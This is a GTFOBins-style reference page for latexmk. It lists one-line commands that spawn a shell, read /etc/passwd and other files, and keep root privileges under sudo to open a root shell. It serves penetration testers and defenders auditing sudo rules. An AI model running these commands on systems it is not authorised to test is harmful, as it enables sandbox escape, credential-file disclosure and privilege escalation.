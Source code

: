 # GTFOBin: latexmk

This allows to execute `perl` code.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
latexmk -e 'exec "/bin/sh";'
```

```
latexmk -latex='/bin/sh #' /dev/null
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
latexmk -e 'open(X,"/etc/passwd");while(<X>){print $_;}exit'
```

The read file will be part of the output.

```
TF=$(mktemp)
echo '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}' >$TF
strings tmp.dvi
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo latexmk -e 'exec "/bin/sh";'
```